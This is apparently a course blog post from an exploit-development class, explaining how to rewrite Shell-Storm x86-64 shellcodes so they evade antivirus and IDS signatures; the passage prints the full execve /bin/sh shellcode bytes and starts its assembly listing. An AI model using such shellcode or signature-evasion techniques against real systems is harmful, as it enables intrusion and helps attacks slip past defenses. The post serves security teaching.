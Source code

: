 ```yaml
---
title: "SLAE64 - Assignment #6 - Polymorphic Shellcodes"
tags: ["slae64", "assembly", "shellcode", "exploit-development"]
---
```


## Introduction

This is the blog post for the 6<sup>th</sup> Assignment of the SLAE64 course, which is offered by <a href="https://www.pentesteracademy.com/course?id=7" target="_blank">PentesterAcademy</a>. The course focuses on teaching the basics of 64-bit Assembly language for the Intel Architecture (IA-x86_64) family of processors on the Linux platform.

The purpose of this assignment is to take 3 shellcodes from <a href="https://shell-storm.org/shellcode/index.html" target="_blank">Shell-Storm</a> from the **Intel x86-64** category and create polymorphic versions of them in order to beat pattern matching. Pattern matching means that a program (AV or IDS) has a database with **signatures**. A signature is bytes suite identifying a program. More information can be found at: <a href="https://phrack.org/issues/61/9.html" target="_blank">Polymorphic Shellcode Engine, by Phrack</a>. So, with polymorphism we preserve the functionality of the shellcode, by using equivalent instructions or garbage instructions that don't change the functionality at all, like `NOP`. 

The table below is used to navigate to each original and polymorphic shellcode and provides the size of the shellcode before and after the modifications.

| Shellcode name | Shellcode in Shell-Storm | Original Size | Polymorphic Size |
| -- | -- | -- | -- |
| [execve](#execve) | <a href="https://shell-storm.org/shellcode/files/shellcode-76.html" target="_blank">Shell-Storm execve</a> | 41 | 35 |
| [tcpbindshell](#tcpbindshell) | <a href="https://shell-storm.org/shellcode/files/shellcode-858.html" target="_blank">Shell-Storm tcpbindshell</a> | 150 | 124 |
| [tcpreverseshell](#tcpreverseshell) | <a href="https://shell-storm.org/shellcode/files/shellcode-857.html" target="_blank">Shell-Storm tcpreverseshell</a> | 118 | 109 |  

My code can be found in my Github: <a href="https://github.com/geobour98/slae64" target="_blank">geobour98's Github</a>.

## execve {#execve}

The original `execve("/bin/sh", ["/bin/sh"], NULL)` shellcode is the following:

```shell
\x48\x31\xd2\x48\xbb\xff\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x48\x31\xc0\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05\x6a\x01\x5f\x6a\x3c\x58\x0f\x05
```

The initial `Assembly` version (`execve-original.nasm`) would look like this:

```nasm
global _start
section .text

_start:

	xor rdx, rdx

	mov rbx, 0x68732f6e69622fff

	shr rbx, 0x8
	push rbx

	mov rdi, rsp

	xor rax, rax
	push rax

	push rdi
```